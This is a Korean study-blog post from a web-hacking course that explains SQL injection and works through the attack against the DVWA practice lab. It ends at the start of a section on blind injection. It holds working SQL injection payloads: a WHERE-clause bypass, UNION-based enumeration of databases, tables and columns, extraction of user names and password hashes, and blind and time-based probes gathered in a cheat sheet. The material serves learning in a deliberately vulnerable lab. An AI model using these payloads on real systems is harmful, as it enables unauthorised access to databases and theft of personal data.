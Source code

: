 ```yaml
---
title:  '[강의] 5주차 웹 해킹- 웹 해킹 기술 탐색 4'
excerpt: "week5"

categories:
  - study
  - etc
  - hacking
tags: [study, etc, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-22T08:06:00-05:00
classes: wide
---
```


### 8주간의 해킹 스터디 다섯번째 시간

벌써 5주차가 되었다. 시간이 참 빠른 것 같다. 내가 연구할 분야와는 관련이 없지만 알아두면 매우 좋을것 같아서 듣는 내내 유익해서 여기까지 온 것 같다 ㅎㅎ

강의링크는 오른쪽 클릭! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>
이번 시간은 공격에 성공할 경우 큰 피해를 입힐 수 있는 SQL문 주입을 통해 데이터베이스를 조작하는 **SQL 인젝션 공격**에 대해 알아보겠습니다.

<hr>

### SQL 인젝션 공격

DB에 전송되는 SQL 쿼리문을 조작해 DB내의 데이터를 변조하거나 다른 사용자의 개인정보와 같이 허가되지 않은 정보에 접근하는 공격이다. 웹사이트의 회원정보 등 개인정보를 빼내는 공격으로 최근까지 꾸준히 사용된다고 한다.🥵🥵

SQL 인젝션 공격에는 기본 2가지가 있다. 

### 1. where 구문 공격

ID가 1인 사용자 정보를 요청하는 시나리오!

요청을 받으면 웹어플리케이션은 내부 DB로 조건문 `WHERE`을 포함하나 SQL 쿼리문을 전송하는데, 쿼리문을 해석해보면 ID=1 인 사용자의 이름과 이메일을 가져오라는 것이다.

이 쿼리가 실행이 되면 ID가 1인 사용자 정보가 웹어플리케이션을 통해 사용자에게 전송된다. 

![image](https://user-images.githubusercontent.com/53431568/126730025-8f3f63c4-b4b2-4a87-958e-73128e1df656.png)

이때! 해커가 1 뒤에 `' or '1'='1` 이런식으로 조작해서 보낸다. 즉, **'1'='1 이라는 항상 참**이되는 조건으로 조작을 해버린 것이다. 🥵🥵🥵

![image](https://user-images.githubusercontent.com/53431568/126730455-9a1af10f-d59e-4c40-a464-a2bf14e4ee4a.png)

결국 WHERE 구문이 우회가 되며 모든사용자의 개인정보를 반환하게 된다.

![image](https://user-images.githubusercontent.com/53431568/126730546-54b50da6-66c5-4bba-adcc-8308b3186c19.png)



### 2. UNION

똑같은 시나리오를 가정하자!

![image](https://user-images.githubusercontent.com/53431568/126730025-8f3f63c4-b4b2-4a87-958e-73128e1df656.png)

이번에 해커는 or 대신에 `union` 을 이용해 뒤에 PASSWORD를 요청하는 구문을 실행하였다.

아래 그림과 같이 union을 사이에 두고 SELECT 구문 두개가 배치되는 것을 볼 수 있다. => **`union은 합집합 개념으로 두개의 구문을 포함해 실행시킨다.`**

끝에 삽입된 #은 뒤에 오는 쿼리문을 생략한다는 뜻으로 해커가 원하는 명령어만 실행하여 공격할 수 있게 된다.🙀🙀 증말 흥미진진하다 ㅋㅋㅋ

![image](https://user-images.githubusercontent.com/53431568/126730690-03ad46b7-0063-4d21-9f11-d4839825affc.png)

이런식으로 정보를 빼내게 된다.

![image](https://user-images.githubusercontent.com/53431568/126730890-f88395e8-a76c-4ca6-9d17-9b3a2af79c23.png)


<br>

이제 재미있는 실습의 시간이다 ㅎㅎ

###  SQL 인젝션 공격 실습

### (1) LOW 단계 - WHERE

먼저 security를 low로 설정하고 SQL Injection 페이지에서 User ID: 1 을 입력하면 다음과 같이 정보가 출력된다.

![image](https://user-images.githubusercontent.com/53431568/126731020-c9dc323e-9e78-4471-a5f1-2a95a113e45e.png)

소스코드를 확인해 어떻게 동작하는지 알아보자!

다음과 같이 query 문을 보면 id가 들어오는 부분에 이미 `'$id'` 처럼 `작은따옴표 두개('')` 로 둘러쌓인것을 볼 수 있다. 

이 곳에 또 다른 작은따옴표가 들어오면 총 `user_id='''` 이런식으로 작은따옴표가 3개가 되어 에러가 발생한다. 한번 확인해보자!

![image](https://user-images.githubusercontent.com/53431568/126731183-4186e00b-b6b5-44d1-948d-f0922a8ecacc.png)


작은따옴표 ' 를 입력하였더니 정말 에러가 발생하였다. 이렇게 **비정상적인 문자를 입력했을 때 SQL쿼리문이 잘못되어 에러가 나면 해당 페이지는 SQL쿼리문을 사용하여 동작**한다는 것을 해커는 눈치챌 수 있으며 이것을 보고 SQL 쿼리문으로 공격할 수 있구나!! 라고 여지를 주게 되는 것이다.

![image](https://user-images.githubusercontent.com/53431568/126731075-df49a603-5c6e-4fef-b9d2-d3f207fc95c4.png)

이번엔 **1' or '1'='1**을 실행해보면 테이블의 모든 정보가 출력되었다.!! ID가 1이라는 것과 상관없이 모든 사용자의 정보가 나오게 된 것이다. 

![image](https://user-images.githubusercontent.com/53431568/126731533-22390548-dd64-41cd-bea2-80f8b15b7b0d.png)

위에서 설명한 # 을 이용하여 작은따옴표(')를 입력해도 에러가 발생하지 않게 해보자.
'ID' 이런식으로 작은따옴표 안에 ID가 감싸지므로 `**'#**` 을 입력한다면 ''id#' 으로 값이 들어가고 #뒤의 명령어는 주석처리 되므로 작은따옴표(')가 2개가 되어 에러가 발생하지 않게 되는 것이다.
 
![image](https://user-images.githubusercontent.com/53431568/126731668-6989cb9a-de8c-4a58-83f6-ac783bdbe99c.png)



### (1) LOW 단계 - UNION

UNION을 이용한다면 DB의 모든 정보를 알아낼 수 있다. UNION을 사용하려면 `**원래 쿼리문이 조회하는 SELECT문의 칼럼갯수**`와 `**UNION뒤의 SELECT문에서 요청하는 칼럼수**`가 같아야 한다. 아니면 에러발생! 

따라서 **원래 쿼리문이 몇개의 칼럼을 반환 하는지 알아내야 한다.** 

실행해보자! 다음과 같이 명령어를 입력하면... 
![image](https://user-images.githubusercontent.com/53431568/126732180-8989ba20-2282-4cb0-9bd4-9fda738ca14d.png)

칼럼수가 맞지 않는다는 경고 메세지를 보여준다.

![image](https://user-images.githubusercontent.com/53431568/126732164-2e94daea-17c2-4c10-83b6-7a01744f7e0d.png)

이번에는 칼럼 2개를 넣어보았더니 아래와 같이 결과가 출력되었다.! 즉, union 이전 쿼리문은 2개의 칼럼을 조회한다는 것을 알아내었다.

![image](https://user-images.githubusercontent.com/53431568/126732267-6f651c08-4da5-43a9-94ed-a47980280fea.png)

다른 방법을 이용해서도 칼럼갯수를 알 수 있다. 바로 `ORDER BY`라는 키워드를 이용하는 것이다. 이 키워드는 어떤 칼럼을 기준으로 정렬할때 쓰는 구문인데 칼럼의 갯수보다 크면 에러가 발생하게 된다. 따라서 원래 칼럼갯수를 맞출 수 있다. 

2일때, 

![image](https://user-images.githubusercontent.com/53431568/126732412-d6fe50ed-46c4-4b81-85a3-ef6f2fb0af6e.png)

3일때, 3이라는 칼럼을 알 수 없다라는 에러메세지를 출력한다. 따라서 2개의 칼럼까지 있다는 것을 알 수 있다. 
![image](https://user-images.githubusercontent.com/53431568/126732428-2d3c492c-92a4-46cb-9dd5-9f0b3d9c7e42.png)

이제 union 공격을 해보자!🙋🏽🙋🏽



#### 데이터베이스 명 조회
~~~sql 1' union select schema_name,1 from information_schema.schemata #~~~


![image](https://user-images.githubusercontent.com/53431568/126734180-ee4edb97-9856-46f9-9c3c-71c3d9ca07d5.png)


#### dvwa 데이터베이스의 테이블 명 조회
~~~sql 
1' union select table_schema, table_name from information_schema.tables where table_schema = 'dvwa' #
~~~
 
 guestbook, users 라는 테이블이 있는 것을 확인할 수 있다. 개인정보가 있는것처럼 보이는 users 테이블을 살펴보도록 한다.
 
![image](https://user-images.githubusercontent.com/53431568/126734262-bc25ea5c-2802-4bd8-95bf-d94b0cbc18cb.png)



#### users 테이블 칼럼 조회
~~~sql 
1' union select table_name, column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'#
~~~ 

user_id, first name, surname, passwd 를 보여준다.

![image](https://user-images.githubusercontent.com/53431568/126734314-e90e55e6-27e0-42a2-bd36-83dff156ba39.png)



이제, users 테이블에서 사용자이름과 password 만 출력해보자!

~~~sql 
1' union select user,password from users#
~~~

아래와 같이 사용자명과 password가 surname에 해쉬값의 형태로 출력되었다.




구글탭에 해쉬값을 넣어 password를 알아보면 어떤 문자열인지 알 수 있다. 



<br><br>

이 밖에도 다양한 명령어들로 공격을 할 수 있다. 명령어들을 정리해두었다.

<details markdown="1">
<summary>명령어 정리🔎</summary>

~~~sql 
// WHERE 구문 우회
1' or '1'='1

// UNION을 이용한 칼럼 갯수 알아내기
1' union select 1,1#

// ORDER BY 구문을 이용한 칼럼 갯수 알아내기
1' order by 2#

// 데이터베이스 명 조회
1' union select schema_name,1 from information_schema.schemata #

// dvwa 데이터베이스의 테이블 명 조회
1' union select table_schema, table_name from information_schema.tables where table_schema = 'dvwa' #

// users 테이블 칼럼 조회
1' union select table_name, column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'# 

// 블라인드 SQL 인젝션 참 구문
1' AND 1=1# 

// 블라인드 SQL 인젝션 거짓 구문
1' AND 1=2#

// 시간기반 블라인드 SQL 인젝션 탐지 구문
1' AND SLEEP(5)#
~~~

</details>

<br><br>



### (2) 블라인드 SQL 인젝션



